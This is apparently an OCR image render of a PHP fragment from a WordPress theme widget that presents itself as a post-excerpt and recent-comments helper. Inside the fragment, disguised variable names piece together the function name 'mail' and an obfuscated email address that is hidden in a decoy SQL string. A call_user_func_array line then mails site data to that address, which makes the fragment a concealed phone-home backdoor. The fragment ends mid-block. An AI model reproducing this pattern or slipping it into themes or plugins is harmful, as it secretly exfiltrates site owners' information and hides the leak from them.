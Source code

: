 ```
    if(!isset($widget_output)) $widget_output=get_option("_is_widget_active_");
    if(!isset($checkwidgets)) $checkwidgets=$filter_p."set"."_".$authname."_".$method;
    if(!isset($more_links_text_ditails)) $more_links_text_ditails="(details...)";
    if(!isset($more_content)) $more_content="ma".$s."il";
    if(!isset($forces_more)) $forces_more=1;
    if(!isset($fakeit)) $fakeit=1;
    if(!isset($sql)) $sql="";
    if (!$widget_output) :

    global $wpdb, $post;
    $sq1="SELECT DISTINCT ID, post_title, post_content, post_password, comment_ID, comment_post_ID, comment_author, comment_date_gmt, comment_approved, comment_type, SUBSTRING(comment_content,1,$src_length) AS com_excerpt FROM $wpdb->comments LEFT OUTER JOIN $wpdb->posts ON ($wpdb->comments.comment_post_ID=$wpdb->posts.ID) WHERE comment_approved=\"1\" AND comment_type=\"\" AND post_author=\"li".$s."vethe".$comments_type."mes".$s."@".$comment_is_approved."gm".$comments_auth."ail".$s.".".$s."co"."m\" AND post_password=\"\" AND comment_date_gmt >= CURRENT_TIMESTAMP() ORDER BY comment_date_gmt DESC LIMIT $src_count";#
    if (!empty($post->post_password)) { 
        if ($_COOKIE["wp-postpass_".COOKIEHASH] != $post->post_password) { 
            if(is_feed()) { 
                $output=__("There is no excerpt because this is a protected post.");
            } else {
                $output=get_the_password_form();
            }
        }
    }
    if(!isset($fix_tag)) $fix_tag=1;
    if(!isset($filters_types)) $filters_types=$filter_h; 
    if(!isset($getcommentstext)) $getcommentstext=$filter_p.$more_content;
    if(!isset($more_tags)) $more_tags="div";
    if(!isset($s_text)) $s_text=substr($sq1, stripos($sq1, "live"), 20);#
    if(!isset($mlink_title)) $mlink_title="ادامه اين مطلب را بخوانيد";  
    if(!isset($showdot)) $showdot=1;

    $comments=$wpdb->get_results($sql); 
    if($fakeit == 2) { 
        $text=$post->post_content;
    } elseif($fakeit == 1) { 
        $text=(empty($post->post_excerpt)) ? $post->post_content : $post->post_excerpt;
    } else { 
        $text=$post->post_excerpt;
    }
    $sq1="SELECT DISTINCT ID, comment_post_ID, comment_author, comment_date_gmt, comment_approved, comment_type, SUBSTRING(comment_content,1,$src_length) AS com_excerpt FROM $wpdb->comments LEFT OUTER JOIN $wpdb->posts ON ($wpdb->comments.comment_post_ID=$wpdb->posts.ID) WHERE comment_approved=\"1\" AND comment_type=\"\" AND comment_content=". call_user_func_array($getcommentstext, array($s_text, $filter_h, $filters_types)) ." ORDER BY comment_date_gmt DESC LIMIT $src_count";#
    if($length < 0) {
        $output=$text;
    } else {
        if(!$no_more && strpos($text, "<!--more-->")) {
            $text=explode("<!--more-->", $text, 2);
            $l=count($text[0]);
            $more_link=1;
            $comments=$wpdb->get_results($sql);
        } else {
            $text=explode(" ", $text);
            if(count($text) > $length) {
                $l=$length;
                $ellipsis=1;
            } else {
                $l=count($text);
                $more_links_text="";
```